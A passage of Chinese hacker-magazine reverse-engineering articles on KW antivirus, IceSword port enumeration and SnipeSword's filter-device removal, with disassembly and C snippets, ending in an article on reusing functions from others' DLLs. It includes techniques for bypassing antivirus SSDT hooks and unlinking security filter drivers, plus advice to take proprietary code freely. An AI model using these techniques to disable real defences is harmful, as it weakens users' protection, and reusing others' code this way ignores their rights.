.text:100011D8 push offset ProcName ; "ZwQuerySystemInformation"
// 得到 ZwQuerySystemInformation 函数的地址
.text:100011DD push esi ; hModule
.text:100011DE call edi ; GetProcAddress
.text:100011E0 test eax, eax
.text:100011E2 mov dword_10005460, eax
.text:100011E7 jz short loc_10001205
```

从这段代码可以看出是通过 ZwQuerySystemInformation 函数得到加载到内存中的驱动程序，然后找到 NTOSKRNL.EXE 和 NTKRNLPA.EXE 这两个文件来进行检测。由于 RestoreSSDT.dll 反汇编代码太长，这里就不给出了，其实现的功能就是恢复 SSDT 了。看来，KW 的 AntiRootkit 这个功能的实现就是简单地恢复 SSDT 表。

Anti Rootkit 只是简单地恢复 SSDT，是难以检测出病毒的，而且对于新手来说，用它的 Anti Rootkit 往往会适得其反。因为很多杀毒软件和主动防御软件都会去挂接 SSDT，包括 KW 自己的进程防火墙也会挂接 SSDT。所以，这样的 Anti Rootkit 的弊端是非常大的，如果用 KW 的 Anti Rootkit 恢复一下 SSDT 的话，它的进程防火墙也就失效了。

接下来再看看 KW 的 Anti Inline Hook 的实现方法。Inline Hook 是通过覆盖代码来 Hook API 的，就是说这种 Hook 方法是直接改写 API 在内存中的映像，嵌入汇编代码使被调用 API 时跳转到指定的地址去运行。具体实现方式这里就不说了，我们主要看看它是如何检测 Inline Hook 的。在 KW 的安装目录下有个 DetectAndRestoreInlineHook.dll 文件，看文件名想必应该就是检测并修复 Inline Hook 的实现所在了。用 IDA 反汇编，看看其关键代码，这里关键看 KW 的检测实现。

```asm
.text:10001030 call CreateToolhelp32Snapshot
...
.text:1000104B call Process32First
...
.text:10001050 test eax, eax
.text:10001052 jz short loc_10001073
// 检测被挂接的几个 API
...
.text:1000106A call Process32Next
...
.text:10001093 mov edi, offset s_Kernel32_dll ; "\\kernel32.dll"
...
.text:100010DD push offset s_Createprocess ; "CreateProcessW"
.text:100010E3 push ecx ; lpLibFileName
.text:100010E4 push ebx ; int
.text:100010E5 call sub_10001260
...
.text:100010F1 push offset s_Findfirstfile ; "FindFirstFileW"
.text:100010F6 push edx ; lpLibFileName
.text:100010F7 push ebx ; int
.text:100010F8 call sub_10001260
...
.text:10001104 push offset s_Findnextfilew ; "FindNextFileW"
.text:10001109 push eax ; lpLibFileName
.text:1000110A push ebx ; int
.text:1000110B call sub_10001260
...
.text:10001117 push offset s_Loadlibraryex ; "LoadLibraryExW"
.text:1000111C push ecx ; lpLibFileName
.text:1000111D push ebx ; int
.text:1000111E call sub_10001260
...
.text:10001132 mov edi, offset s_Advapi32_dll ; "\\advapi32.dll"
...
.text:10001146 push offset s_Regdeletekeyw ; "RegDeleteKeyW"
...
.text:10001170 push offset s_Regdeletevalu ; "RegDeleteValueW"
.text:10001175 lea ecx, [esp+44Ch+var_428]
.text:10001179 push ecx ; lpLibFileName
.text:1000117A push ebx ; int
.text:1000117B call sub_10001260
...
.text:10001184 push offset s_Regenumkeyw ; "RegEnumKeyW"
.text:10001189 push edx ; lpLibFileName
.text:1000118A push ebx ; int
.text:1000118B call sub_10001260
```

### SECRET OF CRACK

```asm
.text:10001194    push    offset s_RegEnumKeyExW ; "RegEnumKeyExW"
.text:10001199    push    eax ; lpLibFileName
.text:1000119A    push    ebx ; int
.text:1000119B    call    sub_10001260
...
.text:100011A4    push    offset s_RegEnumValueW ; "RegEnumValueW"
.text:100011A9    push    ecx ; lpLibFileName
.text:100011AA    push    ebx ; int
.text:100011AB    call    sub_10001260
...
.text:100011B4    push    offset s_RegOpenKeyW ; "RegOpenKeyW"
.text:100011B9    push    edx ; lpLibFileName
.text:100011BA    push    ebx ; int
.text:100011BB    call    sub_10001260
...
.text:100011C7    push    offset s_RegCreateKeyW ; "RegCreateKeyW"
.text:100011CC    push    eax ; lpLibFileName
.text:100011CD    push    ebx ; int
.text:100011CE    call    sub_10001260
...
.text:100011D7    push    offset s_RegCreateKeyEx ; "RegCreateKeyExW"
.text:100011DC    push    ecx ; lpLibFileName
.text:100011DD    push    ebx ; int
.text:100011DE    call    sub_10001260
...
.text:10001255    jmp     loc_10001077 ; 循环回去
```

其实整个过程只是在遍历系统进程，“call sub_10001260”就是在检测和恢复的实现了。具体检测的内容只是 CreateProcessW、FindFirstFileW、FindNextFileW……至于恢复，只是去进行一些比较而已。我也没有仔细去看。因为看了这些检测的 API 以后我就知道了，所检测的 API 只有 R3 下的，根本没有 R0 下的，这样的 Anti Inline Hook 基本上是没有什么用的。KW 对 Inline Hook 的修复也是比较简单的。我看了看它的汇编代码，大致拼凑了一个类似的功能，使用 VC 编写。

```c
lpDllBase = LoadLibrary(szDllPath);
lpFuncAddr = GetProcAddress(lpDllBase, szFuncName);
hFile = CreateFile(szDllPath, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
dwSize = GetFileSize(hFile, NULL);
hMap = CreateFileMapping(hFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, dwSize, NULL);
lpMap = MapViewOfFile(hMap, FILE_MAP_READ, 0, 0, dwSize);
dwRVA = (DWORD)lpFuncAddr - (DWORD)lpDllBase;
lpRealFuncAddr = (LPVOID)((DWORD)lpMap + dwRVA);
if (VirtualProtect(lpFuncAddr, 10, PAGE_EXECUTE_READWRITE, NULL))
    memcpy(lpFuncAddr, lpRealFuncAddr, 10);
```

剩下的就是进程防火墙了，进程防火墙的实现只是挂接了 NtCreateSection() 这个 API 函数而已。只要简单地恢复 SSDT 的话是很容易突破的，用自己的 Anti Rootkit 恢复一下 SSDT 的话，进程防火墙就没有用了。至于为什么挂接 NtCreateSection()，而不挂接 NtCreateProcess() 我就不明白了。不过我后来在网上找到一篇相关的文章，大家也可以去网上找下看看。

最后顺便看了看其他的一些 DLL 文件，比如 Drddl.dll，这个大概就是卸载远程线程的 DLL 文件，不过它的实现好像比较麻烦，竟然定义了个结构，结构里是卸载的 DLL 的名称和 FreeLibrary() 函数的地址，然后把结构的指针注入到远程进程中。这样做无形中增加了代码的长度，而且感觉不伦不类的。LoadLibrary() 函数的原型本身就跟线程函数的定义相似，直接注入 LoadLibrary() 函数就可以了。而且这个 DLL 文件最让人觉得搞笑的地方是它是调试版本，而不是发布版本。我又看了看其他几个 DLL，也有类似的情况，比如 RemoveServer.dll 文件，看名字感觉是跟服务相关的文件（其实反汇编后就是跟服务有关的），也是调试版本。不知道是不是作者搞错了。

剩下其他的文件我就没有反汇编看了，至于设计方面嘛，其病毒扫描还是单线程的，扫描线程与界面在一个线程中。如果这样做的话，又要扫描又要显示扫描状态的话，肯定需要 DoEvents 这个函数，这样会大大降低扫描的速度。总之，我觉得这个杀毒软件跟我当初想象的相差甚远了。

在作者的介绍中说，该杀软主要是以行为特征进行查杀的，所以病毒库十分小。但是经过我们上面的分析，其中比较重要的功能又十分简单且易于突破。看来在选择使用什么样的杀毒软件的时候，还是应该先考虑使用一些有实力的公司出品的杀软吧，毕竟计算机中毒不是开玩笑的事啊。我对汇编不是很了解，所以在反汇编后是看了个大概，具体的很多细节我并没有仔细去看，如果有什么不对的地方的话，希望大家指出。本文的本意没有要诋毁这款杀毒软件，只是在分析之后发现它的弊端的确很多，在此仅做一下说明而已。

前置知识：汇编语言，C  
关键词：破解，IceSword，端口枚举

### 利用 Decompiler 辅助分析 IceSword 端口枚举功能

文／图 Leminis

最近在写 ARK 小程序，准备实现端口枚举功能，因此对 IceSword v1.22 的端口枚举功能很有兴趣。我原来只是在网上看到说 IceSword 是通过自己构建 IRP 向网络协议驱动发送请求，就首先验证了一下这个说法。

运行 IrpTracker v2.18，选中 \Driver\tcpip 驱动对象，之后运行 IceSword v1.22，选中端口枚举，之后在 IrpTracker 最后截取的 IRP 请求中选中一个双击，会获取如图 1 所示的信息，确定这个 IRP 信息是由 IceSword 发出的，而发向的设备对象是 \Device\Udp。看来 IceSword 真的是自己构建 IRP，直接获取端口信息的。下面我们研究一下其驱动代码的实现。

我们知道，要发送 IRP，必须先打开设备的符号连接，而网络协议驱动的符号连接有好几个，其中包括 \Device\Udp 和 \Device\Tcp，那么我们在 IDA 的 Names window 窗口中找找，看是否有相关信息。结果找到 aDeviceTcp_1、aDeviceTcp_2 和 aDeviceUdp_1、aDeviceUdp_2 四个字符串。通过这字符串可以找到如下代码：


```
// 代码1
push ebp
mov ebp, esp
sub esp, 28h
mov eax, off_406F0
cmp word ptr [eax], 1770h
jnz short loc_2132D
push [ebp+arg_8]
push [ebp+OutputBuffer]
push [ebp+FileObject]
call sub_2066C
jmp locret_213CF
...
loc_2132D:
push edi
push 9
pop ecx
xor eax, eax
cmp [ebp+FileObject], eax
lea edi, [ebp+InputBuffer]
rep stosd
pop edi
jz short loc_2134C
cmp [ebp+FileObject], 1
jz short loc_21369
```

首先将 icesword.exe 脱壳，直接用 PE_Explorer 提取 IceSword 驱动。用 IDA v5.2 加载分析，不过在分析之前需要装上 Decompiler v1.0，它是可以把二进制码转化成 C 语言形式的 IDA 插件。

### SECRET OF CRACK

```asm
.text:00021344 push 0FFFFFFF6h
.text:00021346 pop eax
.text:00021347 jmp locret_213CF
...
.text:0002134C loc_2134C: ; CODE XREF EnumPort+34↑j
.text:0002134C lea eax, [ebp+FileObject]
...
.text:0002134F push offset aDeviceTcp_2 ; "\\Device\\Tcp"
.text:00021354 push eax ; Object
.text:00021355 lea eax, [ebp+FileHandle]
.text:00021358 push eax ; FileHandle
.text:00021359 call GetObjectByName
.text:0002135E test eax, eax
.text:00021360 jl short locret_213CF
.text:00021362 mov eax, 400h
...
.text:00021369 loc_21369:
.text:00021369 lea eax, [ebp+FileObject]
...
.text:0002136C push offset aDeviceUdp_2 ; "\\Device\\Udp"
.text:00021371 push eax ; Object
.text:00021372 lea eax, [ebp+FileHandle]
.text:00021375 push eax ; FileHandle
.text:00021376 call GetObjectByName
.text:0002137B test eax, eax
.text:0002137D jl short locret_213CF
.text:0002137F mov eax, 401h
...
.text:00021384 loc_21384:
.text:00021384 mov [ebp+InputBuffer], eax
...
.text:000213B0 push [ebp+FileObject] ; FileObject
.text:000213B3 call GetPortInfomation
.text:000213B8 mov ecx, [ebp+FileObject] ; Object
.text:000213BB mov esi, eax
.text:000213BD call ds:ObfDereferenceObject
.text:000213C3 push [ebp+FileHandle] ; Handle
.text:000213C6 call ds:ZwClose
.text:000213CC mov eax, esi
.text:000213CE pop esi
.text:000213CF locret_213CF:
.text:000213CF leave
.text:000213D0 retn 0Ch
.text:000213D0 EnumPort endp
```

这段代码中，模块 1 和模块 2 调用的是同一个函数。我们进入这个函数，按下 F5，调用 Decompiler v1.0，分析获取的 C 语言代码如下。

```c
// 代码2
int32 __stdcall GetObjectByName(PHANDLE FileHandle, PVOID *Object, PCWSTR SourceString)
{
    int32 result;
    HANDLE v4;
    PVOID *v5;
    NTSTATUS v6;
    UNICODE_STRING DestinationString;
    OBJECT_ATTRIBUTES ObjectAttributes;
    struct _IO_STATUS_BLOCK IoStatusBlock;

    RtlInitUnicodeString(&DestinationString, SourceString);
    v5 = Object;
    v4 = FileHandle;
    ObjectAttributes.ObjectName = &DestinationString;
    *Object = 0;
    ObjectAttributes.Length = 24;
    ObjectAttributes.RootDirectory = 0;
    ObjectAttributes.Attributes = 64;
    ObjectAttributes.SecurityDescriptor = 0;
    ObjectAttributes.SecurityQualityOfService = 0;
    result = ZwCreateFile(v4, 0xC0000000u, &ObjectAttributes, &IoStatusBlock, 0, 0x80u, 1u, 3u, 0, 0, 0);
    if (result >= 0)
    {
        v6 = ObReferenceObjectByHandle(*v4, 0, 0, 0, v5, 0);
        SourceString = (PCWSTR)v6;
        if (v6 < 0)
        {
            ZwClose(*v4);
            *v5 = 0;
        }
    }
    result = (__int32)SourceString;
    return result;
}
```

通过上面代码，我们知道原来这个函数的功能是通过 ZwCreateFile 打开设备，获取设备句柄，之后通过 ObReferenceObjectByHandle 获取 FileObject 对象，并返回该值。我们将该函数命名为 GetObjectByName，其函数声明应该为：

```c
NTSTATUS
GetObjectByName(
  OUT PHANDLE FileHandle,
  OUT PFILE_OBJECT *Object,
  PCWSTR SourceString // SourceString 为设备连接名，比如“\\Device\\Tcp”和“\\Device\\Udp”
);
```

该函数的功能是通过设备连接名获取设备句柄和设备的文件对象名。模块 1 和模块 2 分别获取“\\Device\\Tcp”和“\\Device\\Udp”设备的句柄和文件对象。我们再来看模块 3 部分调用的函数，根据传入的参数信息，我们猜测获取端口信息的功能就是在这里实现的。进入模块 3 调用的函数，按 F5，获取如下代码：

```c
// 代码3
signed int __stdcall GetPortInfomation(
    PFILE_OBJECT FileObject,
    PVOID InputBuffer,
    ULONG InputBufferLength,
    PVOID OutputBuffer,
    ULONG OutputBufferLength,
    int a6)
{
    signed int result;
    PIRP MyIrp;
    struct _DEVICE_OBJECT *v8;
    PIRP v9;
    int v10;
    PFILE_OBJECT v11;
    int v12;
    struct _KEVENT Event;
    signed int v14;
    int v15;
    ...
}
```

```c
...
v9 = MyIrp;
if (MyIrp)
{
    v11 = FileObject;
    ...
    result = IofCallDriver(v8, v9);
    if (result == 259)
    {
        KeWaitForSingleObject(&Event, 0, 0, 0, 0);
        result = v14;
    }
    if (a6)
        *(_DWORD *)a6 = v15;
}
else
{
    result = -1073741670;
}
return result;
}
```

通过观察，我们在函数开头发现一个未知函数 sub_20E2A，它接受了一个 FileObject 对象指针，我们进入该函数按 F5，得到代码如下：

```c
// 代码4
PDEVICE_OBJECT __stdcall sub_20E2A(PFILE_OBJECT FileObject)
{
    PDEVICE_OBJECT result;
    ...
    if (dword_3F750)
    {
        ...
        result = FileObject->DeviceObject;
    }
    else
    {
        result = IoGetRelatedDeviceObject(FileObject);
    }
    return result;
}
```

很明显，这个函数的功能是调用 IoGetRelatedDeviceObject，通过 FileObject 获取设备对象。我们将此函数命名为 GetDeviceObject。其函数声明为：

```c
PDEVICE_OBJECT
GetDeviceObject(
    IN PFILE_OBJECT FileObject
);
```

该函数通过 IoBuildDeviceIoControlRequest 构建一个 IRP，填充的 IOCTL 是 0x120003u，我们通过 IrpTracker 截取的 IceSword 向 "\\Device\\Tcp" 发送的 IRP 的 IOCTL 码如图 2 所示，IoControlCode 是 0x120003。

| 字段 | 值 |
|---|---|
| OutputBufferLength | 0x4000 |
| InputBufferLength | 0x24 |
| IoControlCode | 0x120003 |
| Type3InputBuffer | 0xBA42694C |
| DEVICE_OBJECT DeviceObject | 0x88B772B8 (\Device\Tcp) |
| FILE_OBJECT FileObject | 0x877EE290 |
| PIO_COMPLETION_ROUTINE CompletionRoutine | 0x00000000 |
| PVOID Context | 0x00000000 |

图2

通过上面的比较，证明了我们的分析方向是正确的。由此，我们知道 IceSword 通过 IoBuildDeviceIoControlRequest 构建一个 IoControlCode 为 0x120003 的 IRP，通过 IofCallDriver 向 "\\Device\\Tcp" 和 "\\Device\\Udp" 两个设备发送 IRP，获取端口信息。

至此，我们对 IceSword 的端口枚举功能就分析完了。下面我们要分析一下代码 1 中的函数给 "\\Device\\Tcp" 和 "\\Device\\Udp" 两个设备发送 IRP 时，输入缓冲区传递的是什么参数。

在《Rootkit—Windows 内核的安全防护》一书的 IRP HOOK 的例子中，是 HOOK "\\Device\\Tcp" 和 "\\Device\\Udp" 这两个设备的 DEVICE_CONTROL 例程。在这个例子中，我们知道向这两个网络协议设备发送查询 IRP 时，输入缓冲区的结构体是 TCP_REQUEST_QUERY_INFORMATION_EX。

在 DDK 的 tdiinfo.h 中，我们可以获取向这两个网络协议设备发送查询 IRP 时，输入缓冲区的结构体 TCP_REQUEST_QUERY_INFORMATION_EX 以及相关结构的定义：

```c
typedef struct tcp_request_query_information_ex {
    TDIObjectID ID; // object ID to query.
    ULONG_PTR Context[CONTEXT_SIZE/sizeof(ULONG_PTR)]; // multi-request context. Zeroed for the first request.
} TCP_REQUEST_QUERY_INFORMATION_EX, *PTCP_REQUEST_QUERY_INFORMATION_EX;

typedef struct TDIObjectID {
    TDIEntityID toi_entity;
    ulong toi_class;
    ulong toi_type;
    ulong toi_id;
} TDIObjectID;

typedef struct TDIEntityID {
    ulong tei_entity;
    ulong tei_instance;
} TDIEntityID;
```

我们将代码 1 的函数命名为 GetPortInfomation，在 IDA 中看到底是哪里调用了这个函数。在第一处调用此函数的调用语句前，我们发现了两段代码：

```asm
// 代码5
.text:00021254  push    offset aDeviceTcp_1 ; "\\Device\\Tcp"
.text:0002125E  call    GetObjectByName
.text:00021263  test    eax, eax
.text:00021265  jl      short locret_212D4
.text:00021267  mov     eax, 400h
.text:0002126C  jmp     short loc_21289
...
.text:00021271  push    offset aDeviceUdp_1 ; "\\Device\\Udp"
.text:0002127B  call    GetObjectByName
.text:00021280  test    eax, eax
.text:00021282  jl      short locret_212D4
.text:00021284  mov     eax, 401h
.text:00021289  mov     [ebp+tei_entity], eax
.text:0002128C  mov     eax, [ebp+arg_8]
.text:0002128F  push    esi
.text:00021290  push    eax
.text:00021291  push    dword ptr [eax] ; OutputBufferLength
.text:00021293  and     [ebp+tei_instance], 0
.text:00021297  lea     eax, [ebp+tei_entity]
.text:0002129A  mov     [ebp+toi_class], 200h
.text:000212A1  push    [ebp+OutputBuffer] ; OutputBuffer
... 
```

```asm
.text:000212A4 mov [ebp+toi_type], 100h
.text:000212AB mov [ebp+toi_id], 101h
```

```c
pRequestInformationEx->ID.toi_entity.tei_entity = CL_TL_ENTITY;
pRequestInformationEx->ID.toi_entity.tei_instance = 0;
pRequestInformationEx->ID.toi_class = 0x200;
pRequestInformationEx->ID.toi_type = 0x100;
pRequestInformationEx->ID.toi_id = 0x102;
```

在《Rootkit-Windows内核的安全防护》的 IRP HOOK 网络驱动例子中，我们很熟悉 0x400、0x200、0x100、0x101 等几个数字，看代码“push dword ptr [ebp+0Ch] ; OutputBuffer”就知道这个就是输入缓冲区的数据结构了。由于用 Decompiler_v1.0 只能将一些基本的模块转化成 C 语言，在此，我们自己把代码 5 中填充 TCP_REQUEST_QUERY_INFORMATION_EX 的结构用 C 代码实现，其中每个参数的不同设置，大家可以参考 tdinfo.h 文件中的定义。

```c
PTCP_REQUEST_QUERY_INFORMATION_EX pRequestInformationEx;
```

至此，我们就把 IceSword 的端口枚举部分全部分析完毕了，至于获取的缓冲区的数据结构，大家可以参考《Rootkit-Windows内核的安全防护》一书中 IRP HOOK 例子中已经定义好的。通过分析，我们知道 IceSword 获取端口信息是很底层的，直接从驱动中获取，不过这样是无法躲避 IRP HOOK 攻击的，需要在调用驱动的 DEVICE_CONTROL 例程时，检查该例程指针是否被 HOOK 了。

前置知识：汇编语言  
关键词：破解、驱动、遍历

### 狙剑文件与磁盘过滤驱动遍历和删除功能全逆向

文/Lemnis

SnipeSword 狙剑是近两年出现的一款强大的安全反黑工具，它提供的众多新颖功能中，有个可以查看和删除文件过滤设备的功能，这个功能还是很有用的，于是我就分析了一下，这里和大家共同分享。

我们首先要知道狙剑是发哪个 IOCTL 给驱动来提供这个功能的。运行狙剑，然后运行 IrpTracker，在 IrpTracker 的“File->Select Device”中选择狙剑的设备 Driver\SnipeSword，然后按 Ctrl+F，清除所有的 IRP 请求类型，之后只选中 DEVICE_CONTROL，再点击狙剑扩展功能中的文件过滤系统，在 IRPTRACKER 中可看到截取的请求信息，发现 IOCTL 是 0x226160，然后用同样的方法获取磁盘过滤系统遍历的 IOCTL 是 0x2261DC。同样的，我们还可以获取删除设备时的 IOCTL 为 0x2261E0，再用 IDA 逆向狙剑，在 DeviceControlRoutine 中找到对应这两处的地方，然后开始分析。

我们先看遍历文件过滤系统的主要函数部分。

```asm
.text:0001356E lea ecx, [ebp+ObjectAttributes]
.text:00013571 mov dword ptr [ecx], 18h
.text:00013577 and dword ptr [ecx+4], 0
.text:0001357B mov dword ptr [ecx+0Ch], 240h
.text:00013582 and dword ptr [ecx+10h], 0
.text:00013586 mov dword ptr [ecx+8], offset VolName
.text:0001358D and dword ptr [ecx+14h], 0
.text:00013591 push 0 ; EaLength
.text:00013593 push 0 ; EaBuffer
.text:00013595 push 21h ; CreateOptions
.text:00013597 push 3 ; CreateDisposition
.text:00013599 push 0 ; ShareAccess
.text:0001359B push 80h ; FileAttributes
.text:000135A0 push 0 ; AllocationSize
...
```

```asm
.text:0001360E movzx ecx, ax
.text:00013611 shr ecx, 1
.text:00013613 inc ecx
.text:00013614 cmp ecx, 104h
.text:0001361A jnb short loc_13662
...
.text:000136A1 call RtlZeroMemory
```

```asm
.text:000136A6 push [ebp+var_38] ; int
.text:000136A9 lea eax, [ebp+VarBuffer]
.text:000136AF push eax ; char *
.text:000136B0 push edi ; SourceString
.text:000136B1 call sub_10486
.text:000136B6 push 104h
.text:000136BB lea eax, [ebp+VarBuffer]
.text:000136C1 push eax
.text:000136C2 push ebx
.text:000136C3 call MyMemCpy
; 拷贝设备名到缓冲区中
.text:000136C8 add ebx, 104h
.text:000136CE sub [ebp+Len], 104h
.text:000136D5 cmp [ebp+Len], 0
.text:000136D9 jz short loc_136E4
.text:000136DB cmp [ebp+Len], 1400h
.text:000136E2 jbe short loc_136E6
```

这段代码是遍历文件过滤系统上的设备的代码。每一个驱动加载到系统中之后，都会创建对应的设备对象。这个设备对象用 DEVICE_OBJECT 类型的数据结构来保存。如果还有其他的对象创建的设备，比如过滤驱动，需要与该设备连接，则在这个数据结构中有一个成员 AttachedDevice，它用来保存和它连接的设备。这样，如果有很多相关的设备的话，就组成了一个驱动设备链，而这个链就是通过 AttachedDevice 一个一个串到一起的。

在这段代码中，首先用 ZwCreateFile 函数将卷设备“\\??\\c:\\”（其实就是我们通常说的 C 盘，只是可以将 C 盘作为一个文件来打开）打开，获取一个句柄，然后使用函数 ObReferenceObjectByHandle。通过调用这个函数，用句柄就获取了这个卷设备对应的文件对象指针，然后通过文件对象指针，调用函数 IoGetBaseFileSystemDeviceObject 就可以获取文件系统最底下的那个设备的设备对象指针了。通过这个设备的设备对象中的 AttachedDevice 就可以一个一个地把挂在这个设备上的所有设备找到。在 DEVICE_OBJECT 数据结构中，还有一个类型为 DRIVER_OBJECT 的成员 DriverObject，这个是创建该设备的驱动的驱动对象指针，在这个驱动对象数据结构中，有一个成员 DriverName，记录的是创建这个设备的驱动的驱动文件名，这样，我们就可以知道是哪个驱动程序创建了这个设备。上述代码通过遍历文件系统设备链，把每个设备的设备对象指针和创建设备的驱动名字保存到缓冲区中，然后传给狙剑的应用程序。这样，我们就看到了如图 1 所示的结果，其中的 mp110010.sys 就是微点主动防御软件挂的设备。


当使用狙剑的文件过滤系统功能时，在遍历到的设备上点右键，就可以摘除过滤设备。下面我们再分析一下这个功能的实现。

```asm
RemoveFilterDevice proc near ; CODE XREF:
...
.text:000127B1 cmp eax, 1
.text:000127B4 jnz short loc_127C1
.text:000127B6 push ebx
.text:000127B7 call RemoveFileSystemFilterDevice
.text:000127BC jmp loc_1291A
.text:000127C1 cmp eax, 2
.text:000127C4 jnz short loc_127D1
.text:000127C6 push ebx
.text:000127C7 call RemoveDiskDevice
.text:000127CC jmp loc_1291A
```

在这个函数中，通过判断不同的参数，实现的是对不同设备的删除。比如是 1 的时候，删除文件过滤设备；是 2 的时候，删除磁盘过滤设备。我们先来分析下删除文件过滤设备，代码如下：

```asm
.text:00013785 call ZwCreateFile
...
.text:0001379D call ObReferenceObjectByHandle
.text:000137A2 or eax, eax
.text:000137A4 jnz short loc_137E5
.text:000137A6 push [ebp+Object]
.text:000137A9 call IoGetBaseFileSystemDeviceObject
.text:000137AE mov edi, eax
.text:000137B0 mov [ebp+pDeviceObject], eax
.text:000137B3 mov [ebp+pDeviceObjectbak], eax
.text:000137B6 mov esi, [edi+8]
; pDeviceObject.DriverObject
.text:000137B9 mov edi, [esi+20h]
; pDeviceObject.DriverObject.DriverName.Buffer
.text:000137BC xor edi, edi
.text:000137BE mov esi, [ebp+pDeviceObject]
.text:000137C1 mov edi, [esi+10h]
; pDeviceObject.AttachedDevice
.text:000137C4 or edi, edi
.text:000137C6 jz short loc_137DD
.text:000137C8 mov [ebp+pDeviceObject], edi
.text:000137CB cmp edi, [ebp+arg_0]
.text:000137CE jnz short loc_137DB
.text:000137D0 mov eax, [edi+10h]
.text:000137D3 mov esi, [ebp+pDeviceObjectbak]
.text:000137D6 mov [esi+10h], eax
.text:000137D9 jmp short loc_137DD
```

通过上面的代码可以看到，前面的操作和遍历文件过滤设备时的操作基本一样，不同之处是在遍历的过程中，会把获取的设备对象指针和参数中传入的要删除的设备对象指针比较，如果发现是要删除的设备对象，则会把要删除设备的上一个设备的设备对象的 AttachedDevice 指针指向要删除设备的设备对象的 AttachedDevice 指针指向的下一个设备对象，这样，就把这个设备从文件过滤系统的设备链上摘掉了。

下面我们再来分析狙剑是怎么遍历磁盘过滤系统上的设备的。

```asm
push ebp
.text:000139BC mov ebp, esp
.text:000139BE add esp, 0FFFFFBE8h
.text:000139C4 push esi
.text:000139C5 push edi
.text:000139C6 push ebx
.text:000139C7 push ebp
.text:000139C8 push offset loc_13B53
.text:000139CD push offset sub_113C2
.text:000139D2 push large dword ptr fs:0
.text:000139D9 mov large fs:0, esp
.text:000139E0 lea eax, [ebp+DeviceObject]
.text:000139E3 push eax
.text:000139E4 lea eax, [ebp+Object]
.text:000139E7 push eax
.text:000139E8 push 80h
.text:000139ED push offset stru_1CC3C
.text:000139F2 call IoGetDeviceObjectPointer
.text:000139F7 or eax, eax
.text:000139F9 jz short loc_13A0E
.text:000139FB push eax
.text:000139FC push offset aIogetdeviceo_0 ; "IoGetDeviceObjectPointer: %x"
.text:00013A01 call DbgPrint
.text:00013A06 add esp, 8
.text:00013A09 jmp loc_13B53
.text:00013A0E push [ebp+Object]
.text:00013A11 call IoGetBaseFileSystemDeviceObject
```

通过上面的代码，会发现遍历磁盘过滤系统上的设备时，并不是通过 ZwCreateFile 打开卷设备来获取句柄，再通过句柄获取文件对象指针的。这段代码是通过对象名 \\Device\\Harddisk0\\DR0，调用函数 IoGetDeviceObjectPointer 来获取文件对象指针，然后通过文件对象指针，得到磁盘过滤系统最底层的设备的设备对象指针。之后的遍历设备链的过程，就和遍历文件过滤系统设备链的过程一样了。

下面是删除磁盘过滤系统上的设备的代码。

```asm
.text:00013B9D call IoGetDeviceObjectPointer
.text:00013BB9 call IoGetBaseFileSystemDeviceObject
.text:00013BE6 mov esi, [ebp+pDeviceObjectBak]
.text:00013BEC mov eax, [edi+10h]
.text:00013BEF mov [esi+10h], eax
.text:00013BF2 jmp short loc_13BF6
```

通过这段代码可以看到，其实在删除磁盘过滤系统上的设备时，遍历设备链的过程和前面函数中遍历磁盘过滤系统设备链的过程是一样的。而在删除设备链上的设备时，和前面删除文件过滤系统上的设备时的代码基本上也是一样的。

通过对狙剑驱动的分析，我们基本就可以了解了怎么遍历文件过滤系统和磁盘过滤系统上的设备，以及怎样删除这些系统上的指定设备。

以上就是我对狙剑部分功能的分析，分析若有错误之处，请多多包涵。

### 软件代码“窃取”技术

前置知识：汇编语言  
关键词：破解、代码窃取、逆向函数

——逆向你想要的代码

文/图 Hokkien


对 Windows 编程感兴趣的朋友，对微软未公开的 API 函数应该不算陌生，周围的软件大量应用此类函数进行编写，使得代码的编写节省了大量的时间以及空间。既然微软并没有公开这种函数的应用，那这类函数又是怎么出来的呢？答案很简单，逆向！

你现在所能看到的一切未公开的 API 函数，都是国内外众多高手逆向跟踪出来的。这种跟踪所产生的结果带有主观性，也就是说，最终逆向出来的结构、含义等可能与微软真正的函数声明有所差异，但基本原型却是一样的。也就是说，应用这类函数的最终结果跟微软真正函数原型的应用是一样的，而且，逆向出来的函数也经过了大量的测试，其稳定性也是可以保证的，所以，我们大可放心使用这类函数。

但值得一提的是，应用这类 API 函数可能产生操作系统版本对其不兼容，通俗地说，就是如果你在这一版本的操作系统应用未公开的 API 进行编写软件，那这个软件有可能在下一版本的操作系统当中不予支持。为什么会这样呢？答案很简单，微软并没有公开提供这类函数，那么微软就没有责任保证其兼容性。看到这里，恐怕有些朋友对未公开的 API 函数的使用会没有信心了。别怕，凡事都是有两面性的，有些未公开的技术，虽然微软不予支持，但也不予否定，甚至一旦该类函数被大量软件使用，微软就不得不考虑进行支持；比如 SEH 技术，否则，微软将会为此付出沉重的代价。

那么，如何对未知 DLL 逆向出相关函数，提取你所想要的代码呢？这种情况很常见，比如你在网上下载了一个软件，里面有很多 DLL 文件，而这些文件里包含许多你所想要的代码，但软件并没有提供其应用资料，因为这些可能是商业机密，但你现在很需要这样的代码，自己写又不太划算，甚至根本写不出来，那么，你现在就急切需要一种方法，这种方法能够使你重复免费利用这些代码，怎么办呢？别着急，本文将会做出详细阐述。

我们以网上下载的一个软件 CryptTool 为例，这个软件提供了各种常见加密算法，比如 MD2、MD4、MD5 以及 RIPEMD 等，而我现在想要利用其提供的算法函数直接进行编程，现在要怎么办呢？扫描一下软件目录，发现 MD 算法被封装在“MD.dll”的文件中，这个文件是用 UPX 加壳的，UPX 虽然是比较简单的壳，但因为加壳的对象是 DLL 文件，所以脱起来也比较麻烦。为了简单起见，我们直接用 UPX.EXE 的命令行“upx.exe d MD.dll”进行脱壳。脱壳成功后，接着用 VC++ 附带的软件 View Dependencies 对这个软件进行查看，发现其导出了 MD2、MD4 和 MD5 符号。看来有我们欣赏的 MD5 加密算法了，那我们现在就来逆向 MD5 这个函数原型，并在自己的代码当中利用它。

在逆向函数原型的时候，我们应该从以下

几个方面进行考虑：名称修饰规则；调用规则；参数个数；各个参数的原型；返回值。下面我们根据这5个方面分别跟踪代码，从而还原出函数原型。

#### 名称修饰规则

名称修饰包括C修饰方式和C++修饰方式。“C”或者“C++”函数在内部（编译和链接）通过修饰名识别。修饰名是编译器在编译函数定义或者原型时生成的字符串。有些情况下使用函数的修饰名是必要的，如在模块定义文件里指定输出C++重载函数、构造函数、析构函数，又如在汇编代码里调用C或C++函数等。修饰名由函数名、类名、调用约定、返回类型、参数等共同决定。

